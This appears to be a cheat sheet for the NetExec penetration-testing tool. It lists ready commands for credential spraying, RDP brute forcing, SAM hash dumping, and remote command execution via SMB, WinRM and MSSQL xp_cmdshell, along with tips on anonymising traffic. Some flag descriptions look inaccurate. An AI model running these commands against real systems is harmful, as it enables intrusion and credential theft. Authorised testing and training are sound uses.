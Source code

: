 Here’s a detailed and easy-to-understand **cheat sheet for `netexec`**—a powerful tool used in network penetration testing, especially for Windows environments.

---

## **Installation**

```bash
pipx install git+https://github.com/Pennyw0rth/NetExec
# OR using pip (not recommended)
pip install git+https://github.com/Pennyw0rth/NetExec
```

---

##  **Basic Syntax**

```bash
netexec <protocol> <target> [options]
```

|Protocols|Description|
|---|---|
|`smb`|Windows SMB file sharing|
|`winrm`|Remote PowerShell over HTTP(S)|
|`rdp`|Remote Desktop Protocol|
|`mssql`|Microsoft SQL Server|
|`ldap`|LDAP for Active Directory|
|`ssh`|SSH (basic)|
|`http`|Web targets|

---

##  **Target Formats**

```bash
netexec smb 192.168.1.10
netexec smb 192.168.1.0/24
netexec smb hosts.txt            # file with one IP/hostname per line
```

---

##  **Authentication Options**

```bash
-u USERNAME       # single username
-U users.txt      # list of usernames
-p PASSWORD       # single password
-P passwords.txt  # list of passwords
-d DOMAIN         # (optional) domain name
--local-auth      # only use local accounts
```

###  Example Credential Spraying

```bash
netexec smb 192.168.1.0/24 -u admin -P passwords.txt
netexec smb 192.168.1.0/24 -U users.txt -p Welcome123
```

---

##  **Info Gathering (Enumeration)**

|Task|Command Example|
|---|---|
|Enumerate shares|`--shares`|
|List sessions on target|`--sessions`|
|List logged-in users|`--loggedon-users`|
|Get OS info & hostname|`--hostname`|
|List active users|`--users`|
|Get group membership|`--groups`|
|Dump SAM accounts (if access)|`--sam`|

```bash
netexec smb 192.168.1.100 -u admin -p pass123 --shares --hostname --users
```

---

##  **Command Execution**

```bash
netexec smb 192.168.1.100 -u admin -p pass123 -x "whoami"
```

|Option|Description|
|---|---|
|`-x`|Run command via SMB|
|`--exec-method <method>`|Choose method: `smbexec`, `wmiexec`, etc.|

---

##  **WinRM (PowerShell Remoting)**

```bash
netexec winrm 192.168.1.100 -u admin -p pass123 -x "ipconfig"
```

---

##  **RDP Brute Force / Valid Login**

```bash
netexec rdp 192.168.1.0/24 -u admin -P passwords.txt
```

---

##  **LDAP & Active Directory**

```bash
netexec ldap 192.168.1.10 -u user -p pass --users
```

|Task|Description|
|---|---|
|`--users`|List all domain users|
|`--groups`|List domain groups|
|`--computers`|List domain-joined machines|
|`--domain-info`|Show AD details|

---

##  **MSSQL**

```bash
netexec mssql 192.168.1.10 -u sa -p password123 --exec "xp_cmdshell 'dir'"
```

---

##  **Using a Credentials File**

```bash
netexec smb 192.168.1.0/24 -C creds.txt
# Format: DOMAIN/username:password or username:password
```

---

## **Common Examples**

### Credential Spray with password list

```bash
netexec smb 192.168.1.0/24 -U users.txt -P passwords.txt
```

### Execute whoami if login is successful

```bash
netexec smb 192.168.1.10 -u user -p pass -x "whoami"
```

### Enumerate logged in users

```bash
netexec smb 192.168.1.10 -u user -p pass --loggedon-users
```

### Dump SAM hashes (needs admin)

```bash
netexec smb 192.168.1.10 -u admin -p pass --sam
```

---

##  **Tips**

- Use `--no-bruteforce` to skip login attempts if credentials fail once.
    
- Use `--continue-on-success` to keep trying other users after success.
    
- Combine with proxychains or socks5 for anonymity.
    
- Combine with tools like `kerbrute`, `bloodhound`, `impacket`, etc. for full domain attacks.
    
